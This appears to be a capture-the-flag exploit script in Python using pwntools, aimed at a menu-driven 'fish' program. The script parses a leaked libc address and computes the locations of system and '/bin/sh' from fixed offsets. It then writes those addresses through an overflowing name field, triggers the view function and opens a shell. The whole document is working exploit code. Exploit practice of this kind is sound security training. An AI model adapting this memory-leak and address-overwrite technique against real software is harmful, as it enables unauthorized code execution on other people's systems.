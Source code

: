 ```python

mem_leak = p.recvuntil("> ") # receive memory address leak

print mem_leak

leak = mem_leak[8:12].encode("hex")
leak = "".join([leak[i:i+2] for i in range(0, len(leak), 2)][::-1])
leak = int(leak, 16)

system = leak + -0x23d40
bin_sh = leak + 0x1008af

print hex(leak), hex(system), hex(bin_sh)

p.sendline("2") # update a fish
p.sendlineafter("> ","1") # at position 1
p.sendlineafter("> ","115") # size
p.sendlineafter("> ","115") # weight
p.sendlineafter("> ", 'A' * 8 + p32(system) + p32(bin_sh)) # name

p.sendlineafter("> ","3") # view fish
p.sendlineafter("> ","0") # at position 0

print "BOOYYYYAAAAAH! Shell acquired!"
p.interactive()
```
